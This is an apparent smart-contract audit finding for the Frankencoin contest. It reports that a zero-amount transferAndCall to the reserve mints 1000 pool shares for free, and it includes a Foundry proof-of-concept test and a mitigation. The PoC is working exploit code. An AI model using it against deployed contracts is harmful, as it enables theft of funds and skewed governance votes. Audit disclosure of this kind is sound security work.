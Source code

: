   # Lines of code

https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Equity.sol#L241


# Vulnerability details

## Impact
## Brief /Intro
A malicious user can call the transferAndCall function, passing in zero as the amount to mint at least 1000 FrankenCoin shares. These shares can be used to influence voting or redeemed for actual Zchf tokens.

## Explanation
Frankencoin::transferAndCall and Equity::onTokenTransfer dont have a zero amount check. The only check for the function resides in the inherited ERC20:_transfer function which checks that the recipient is not a zero address.

Because of the above, anyone can transfer zero through transferAndCall to the reserve triggering onTokenTransfer in Equity.sol transferring the 1000 shares to the user.

The caveat is that Frankencoin::equity has to return >= 1000

## Impact
An attacker can mint FPS tokens for themselves without providing any actual value or investment into the system. FPS tokens are crucial for the system because they can be redeemed for Frankencoins or affect the voting

## Proof of Concept
```
contract TokenTest is Test {

Frankencoin zchf;
MintingHub mintingHub;
PositionFactory factory;
StablecoinBridge bridge;
Equity reserve;

uint limit = 1_000_000 ether;

IERC20 collateral = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

function setUp() public {
    zchf = new Frankencoin(7 days);
    reserve = Equity(address(zchf.reserve()));
    factory = new PositionFactory();
    mintingHub = new MintingHub(address(zchf), address(factory));
    bridge = new StablecoinBridge(address(collateral), address(zchf), limit);
}

function testAnotherTransferAndCall() public {
    zchf.suggestMinter(address(bridge), 0, 0, "");
    zchf.suggestMinter(address(mintingHub), 0, 0, "");

    //Open A position for minting
    deal(address(collateral), address(this), 1000 ether);
    deal(address(zchf), address(this), 1000 ether);
    collateral.approve(address(mintingHub), 1000 ether);
    zchf.approve(address(mintingHub), 1000 ether);
    address pos = mintingHub.openPosition(address(collateral), 5 ether, 1000 ether, 1_000_000 ether, 259200, 31536000, 86400, 30000, 1_600 ether , 200000);
    console.log("New position opened with the address: ", pos);

    address[] memory users = new address[](5);
    for(uint i; i < 5; i++) {
        users[i] = address(uint160(i + 1));
        deal(address(collateral), users[i], 1000 ether);
        vm.startPrank(users[i]);
        collateral.approve(address(bridge), 1000 ether);
        bridge.mint(1000 ether);
        vm.stopPrank();
    }

    emit log_named_uint("Equity Value is ", zchf.equity()/1e18);

    zchf.transferAndCall(address(reserve), 0, "");
    console.log("My FrankenCoin Pool Share balance is ", reserve.balanceOf(address(this))/1e18);
}
}
```

## Tools Used
This test was developed in a foundry environment and the test ran on a fork of the mainnet.

## Recommended Mitigation Steps
frankencoin::transferAndCall or equity::onTokenTransfer should have a 0 amount check to prevent this attack
